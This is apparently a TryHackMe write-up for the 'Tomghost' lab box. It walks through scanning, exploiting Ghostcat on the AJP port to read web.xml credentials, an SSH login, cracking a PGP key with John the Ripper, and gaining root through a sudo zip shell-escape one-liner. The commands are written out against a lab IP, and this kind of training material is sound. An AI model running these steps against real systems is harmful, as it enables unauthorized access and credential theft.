


# Try Hack Me - Tomghost

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. This is a TryHackMe box. To access this you must sign up to https://tryhackme.com/.

## Disclaimer -  Your IP address will be different!
---

## Scanning and Enumeration

We will start with running our nmap scan.  
Command: `nmap -A -T4 -sC -sV -oN nmap/initial.txt 10.10.93.77`

Command Breakdown:

    -A: do an extensive scan on these ports

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

    -sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-oN: Normal output to the file normal.file

Once the results came back there was only one thing that appeared out of place to me and that was port 8009.  

By default, Apache Tomcat listens on 3 ports, 8005, 8009 and 8080. A common misconfiguration is blocking port 8080 but leaving ports 8005 or 8009 open for public access.  

  

We will bu using the following tool to exploit this vulnerability.  
[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)  

Command: `python3 ajpShooter.py http://10.10.93.77:8080 8009 /WEB-INF/web.xml read`

 

It would seems that we where able to find what seems to be both a user name and a password.  

Let's look back at our nmap scan. Remeber that port 22 was open. We might be able to use these credentials to log into our box.  

Command: `ssh <username>@10.10.93.77`
Enter in the password when you are prompted to and BLAM! we are connected under that user account.  

  
When we use the `ls` command we see that there are two files. Both of these files could be encryptions keys, but for right now we are going to look into the `/home` directory to see if we can find anything useful.  

  
Let's keep digging and see if we an find anything else. If we `ls /home/merlin` you will see that it is here we find our first flag `user.txt`.  

  

Now we are going to return to pgp and asc file that we found in the `skyfuck` directory.  
We are going to all of these files to our host machine. In order to do this we will need to use the `scp` command.  

When using the `scp` command you will want to run it on your host maching and not from the Tomghost VM.   
Command: `scp skyfuck@10.10.31.90:/home/skyfuck/* .`
## Cracking the Hash
---
After running the `scp` command we now have both the credential.pgp and tryhackme.asc on our host maching.  
The next thing we want to do is use John The Ripper to get the hash from the `tryhackme.asc`.  
Here is a good [video](https://www.youtube.com/watch?v=DBpd9e4tJfg) for recovering your PGP key with John.  
Command: `gpg2john tryhackme.asc > hash`  
Once complete you can see that we now have our password. Lets make sure that we take note of that.  
 
It is now time for to crack open the hash that we collected eariler. This can be down by using John and combining it with the rockyou.txt wordlist.  

FYI in order to find the location of your rockyou.txt word list just use `locate rockyou.txt`. Mind is located in the `/usr/share/wordlists/` directory.  

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
 

It seems that John was able to find out passphrase. Now we are going to use that phrase to import adn decrypt our PGP key that we have.
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

  
Things are starting to work in our favor.
We now have the password to the Merlin account.  
So we need to go back to our SSH shell and change from the skyfuck user to merlin, that can be done by using the `SU` command.  

Command: `su merlin`  
Once you are logged in as Merlin lets see if we have the abiliy to run anything as sudo.  
`sudo -l`  
It seems that the only thing we can use sudo on is `/usr/bin/zip`  
Afer a little bit of reasearch I found this [GitBook](https://d00mfist1.gitbooks.io/ctf/privilege_escalation_-_linux.html) on privilege escalation. Under the zip portion there was this oneliner that would allow us to gain access to a root shell.
`sudo zip -q /tmp/test.zip cc0.txt -T -TT '/bin/sh #'`

  
Once we have the shell we can us the `id` command to see that we are now running as a root user.  

Now it is time to find the root.txt file.
```
ls /root
cat /root/root.txt
```
 

# Congratulations you have just completed the Tomghost challange!